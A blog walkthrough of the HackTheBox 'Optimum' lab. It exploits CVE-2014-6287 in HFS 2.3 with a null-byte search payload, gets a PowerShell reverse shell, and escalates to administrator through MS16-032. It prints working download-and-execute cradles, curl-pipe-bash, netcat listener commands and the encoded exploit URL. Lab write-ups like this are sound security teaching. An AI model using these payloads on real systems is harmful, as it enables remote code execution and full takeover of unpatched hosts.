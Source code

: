 ```yaml
---
title: HackTheBox - Optimum (ft. PowerShell)
category: infosec
date: 2018-09-19
thumbnail: optimum-thumb.webp
tags: htb,powershell,htbwalkthrough
description:
---
```


Optimum was a fun box with which while the write-up says to use Metasploit, can be done almost entirely with PowerShell. This makes it good practice for someone like me who has never used PowerShell to learn some basic things.

![image-alternative](/website/article/static/img/optimum-nmap.webp)

Our initial nmap scans only show one port open running HttpFileServer (HFS) version 2.3, which is vulnerable to [CVE-2014-6287](https://www.cvedetails.com/cve/CVE-2014-6287/). From the description it *"allows remote attackers to execute arbitrary programs via a %00 sequence in a search action."* Basically this just allows us to execute HFS template macros by just sending a null byte (%00) to the search item. Metasploit has the module **exploit/windows/http/rejetto_hfs_exec** to exploit this vulnerability and get a meterpreter shell, but to get a reverse shell in PowerShell, we are going to do it manually.

Using [this reference guide](http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands), we can see that the command we want is `{.exec | A.}`, where `A` is the file to run. In order to get a reverse shell, our script will want to look something like: `{exec | powershell.exe ReverseShell.ps1}`, which will run the "ReverseShell.ps1" script in PowerShell. The reverse shell script we will be using comes from [Nishang](https://github.com/samratashok/nishang), which is a collection of PowerShell scripts used for pen testing. Specifically we want to use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download it and add this line to the bottom of the file to make the `Invoke-PowerShellTcp` function run when the script is executed without any arguments:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444

Our IP address is `10.10.14.3` and we want to listen on port `4444`. In order to get this script into the target machine, we will setup our own HTTP server from where the file can be downloaded from. This can be done using a basic Python module form the command line:

    # Make sure you are in the same directory as the reverse shell script
    $ python -m SimpleHTTPServer # for Python 2
    $ python -m http.server # for Python 3

This will setup a HTTP server which we can access from our IP address `(10.10.14.3)` on port `8000` (by default). Okay, so now we need a way to cause our target machine to download and run this script. On a Linux box with Bash this would be a simple:

    curl http://10.10.14.3:8000/ReverseShell.sh | bash

But on PowerShell it looks a bit different:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')

Because this isn't intended to be a tutorial on PowerShell (I intend to do that later), for now I'll just say that this command is almost identical in what it does to the curl command above. That is - it downloads the reverse shell script and then runs it.

Now is finally time to do the exploit. We will open up netcat as our listener on port 4444 with "nc -lvnp 4444" and paste this into the search URL:

    /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+System.Net.WebClient).DownloadString('http%3a//10.10.14.4%3a8000/Invoke-PowerShellTcp.ps1').}  Without URL encoding it should look like this:

    /?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object+System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp.ps1').}

You can see at the start we use the null terminator (%00) then execute our command from `powershell.exe` located in `C:\Windows\SysNative\WindowsPowershell\v1.0\` which is the 64bit version of PowerShell.

![image-alternative](/website/article/static/img/optimum-ncat.webp)

We can now get `user.txt` from the current directory.

Normally to get root with Metasploit you could use **local\_exploit\_suggester**. But we will use [Sherlock](https://github.com/rasta-mouse/Sherlock), which is a script to find missing software patches for privesc. Download it and add this line to the bottom of the script:

    Find-AllVulns

Now we will invoke it from our shell with:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Sherlock.ps1')

This will go through every vulnerability, but the one we are interested in is this (MS16-032):

![image-alternative](/website/article/static/img/optimum-sherlock.webp)

`MS16-032` is a vulnerability could allow elevation of privilege if the Windows Secondary Logon Service fails to properly manage request handles in memory.

In order to exploit this vulnerability we will use [this script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) form the Empire exploitation framework for PowerShell. As usual add this line at the bottom to run the function when it is downloaded.

    Invoke-MS16032 -Command "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp-MS16032.ps1')"

As you can see we are creating another reverse shell, but because of the `MS16-032` exploit, we will run it as root. Also note that you can't use the same port that your current shell is using, so you will have to create another script and netcat instance with a different port. I will be using port `4448`.

Now we run the command from our shell to get the script:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-MS16032.ps1')

![image-alternative](/website/article/static/img/optimum-root.webp)

And now we are root. The flag is in `C:\Users\Administrator\Desktop\root.txt`.
